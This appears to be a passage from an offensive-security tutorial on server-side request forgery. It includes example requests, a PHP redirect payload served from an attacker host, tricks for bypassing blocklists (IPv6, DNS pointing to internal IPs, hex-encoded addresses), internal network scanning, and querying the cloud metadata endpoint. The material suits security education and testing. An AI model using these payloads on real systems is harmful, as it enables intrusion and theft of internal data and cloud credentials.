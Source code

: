 Maybe you could try:
```
POST /download_profile_from_url
Host: public.example.com

{body of a POST}
user_id=1234&url=https://127.0.0.1/pics.example.com
```

If it's regex based everything is possible cause you don't know what the person on the other side of the computer thought of. Just try to guess how does it work.

### **How to avoid Blocklists**
You can try to provide url to your own site:
`` https://public.example.com/proxy?url=https://attacker.com/ssrf
And on your server under the address of https://attacker.com/ssrf you can serve file, which contains following code:
```
<?php header("location: http://127.0.01"); ?>
```
This will redirect the request to document on the internal network effectively making it request its own internal network. Easy as that.

You can also try to use IPv6. Sometimes mechanisms implemented to combat SSRF are working only for IPv4 instead of IPv6 and you can provide IPv6s of local network.

#### **Deceiving server by using DNS system**
Sometimes you can try to Deceive server by using records of DNS, which computers use to translate domain names to IP addresses. Records of DNS names can be configured on the hosting dashboard. You have to make custom mapping of host name to IP addresses so that your domain name points to IPv4 of local network. Next you can try following URL on the request:
``https://public.example.com/proxy?url=https://attacker.com
When the server will try to reach your domain he will try to find it under local network IP that you pointed it to and it will request data from the address.

#### **Changing coding of a URL**
Sometimes programmers make blacklist that completely suck and are prune to bypassing them by encoding blacklisted URL to for example hexadecimal system. So you can try to encode 127.0.0.1 to 0x7f.0x0.0x0.0x1 and try to find out if it works in following url:
``https://public.example.com/proxy?url=https://0x7f.0x0.0x0.0x1


If u can't find an answer to how to bypass security measures try to always change perspective and think of you implementing them. Try to imagine a way in which you would do so and try to exploit it. 


### **Escalation**
As always it depends, but this time it depends on the internal security measures.

You can try to scan private network in search of reachable machines that you can interact with. Try reaching 10.0.0.1, then 10.0.0.2 and then 10.0.0.3 and look for any feedbacks or banners found. You can also look for open ports which responds with banners.

You can try to reach instances metadata. If the server uses for example EC2 of Amazon it has a tool, which allows instances to get intel about themselves by using special queries for an API under address of 169.254.169.254. Instances are virtual servers used to booting applications in vendors cloud services infrastructure. Those APIs are open by default unless administrators block them or turn them off. Informations disclosed by them are confidential and can lead to further escalation.
